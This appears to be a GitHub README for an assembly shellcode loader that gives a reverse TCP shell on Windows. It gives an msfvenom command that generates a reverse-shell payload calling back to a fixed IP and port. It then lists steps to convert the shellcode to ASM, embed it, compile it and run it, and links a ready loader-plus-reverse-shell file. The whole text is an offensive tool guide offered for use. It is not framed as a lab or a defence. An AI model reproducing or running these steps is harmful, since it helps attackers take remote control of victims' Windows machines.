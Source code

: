 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

For example with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c ```

((this command create a shellcode in C language (you can do with python (p) or directly hex (hex)) and encode without "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" which can do comflits))

## 2. Convert your shellcode

Use this homemade [converter_1](./convert.sh) or [converter_2](./convert2.sh) to get your asm shellcode.


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm).

## 4. Compile your ASM

On windows you can use this compiler [script](./compiler.bat)

## 5. Run

One example with a loader + reverse shell code : [here](./reverse.asm)
